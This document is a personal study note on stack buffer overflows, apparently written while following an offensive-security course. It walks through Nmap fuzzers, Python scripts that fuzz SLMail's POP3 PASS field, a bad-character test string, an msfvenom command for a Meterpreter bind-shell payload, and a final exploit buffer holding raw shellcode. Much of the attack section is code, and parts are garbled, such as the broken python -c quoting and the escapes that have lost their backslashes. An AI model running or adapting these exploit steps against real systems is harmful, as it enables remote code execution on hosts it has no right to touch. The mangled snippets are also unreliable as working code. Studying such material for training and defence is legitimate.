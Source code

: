 ```yaml
---
id: 2023-01-11-buffer-overflows
title: buffer overflows
metaTitle: Buffer Overflows | Anas's Digital Garden
metaDescription: buffer overflows | Anas's Digital Garden
createdDate: 2023-01-11
updatedDate: 2023-01-18
weekNumber: 202302
category: security/buffer-overflows
tags: ["buffer-overflows", "buffer-overflows"]
---
```


# Buffer Overflows

Those are the main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify  
  bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A Look inside Stack while a Simple App is Running

![None](./images/inside_stack.png)

## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to  
  discovering an exploitable vulnerability.
- Nmap Fuzzers:
  - NMap Fuzzer List  
    [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

  - NMap HTTP Form Fuzzer

    ```
      nmap --script http-form-fuzzer --script-args
      'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
      -p 80 $ip
    ```

  - Nmap DNS Fuzzer

    ```
    nmap --script dns-fuzz --script-args timelimit=2h $ip -d
    ```

- MSFvenom  
  [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### A Word about Dep and Aslr

- **DEP** (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on  
  memory, to help prevent malicious code from running on a system.
- The primary benefit of **DEP** is to help prevent code execution from data pages, by raising an exception, when  
  execution occurs.
- **ASLR** (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every  
  time the Operating System is booted.

#### Interacting with the POP3 Protocol

> if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look  
  similar to the following

```python
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print
  "\nSending vil buffer..."
  s.connect(('10.0.0.22', 110))  # connect to IP, POP3 port
  data = s.recv(1024)  # receive banner
  print
  data  # print banner

  s.send('USER   test' + '\r\n')  # end username "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.send('PASS test\r\n')  # send password "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.close()  # close socket
  print
  "\nDone!"

except:
  print
  "Could not connect to POP3!"
```

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting  
  script would look like the following.

```python
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer = ["A"]
counter = 100

while len(buffer) <= 30:
  buffer.append("A" * counter)
  counter = counter + 200

for string in buffer:
  print
  "Fuzzing PASS with %s bytes" % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

- Run this script against your SLMail instance, while attached to **Immunity Debugger**.
- The results of running this script shows that the **Extended Instruction Pointer (EIP)** register has been overwritten  
  with our input buffer of A's (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a  
  place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our  
  buffer.

![Execution Halted in OllyDbg](../../assets/images/posts/buffer-overflow/33.png)

## Check for Bad Characters

```bash
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
```

## Generate Meterpreter Bind-tcp Payload

```bash
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
```

```bash
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + \
"BBBB" + \
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
```
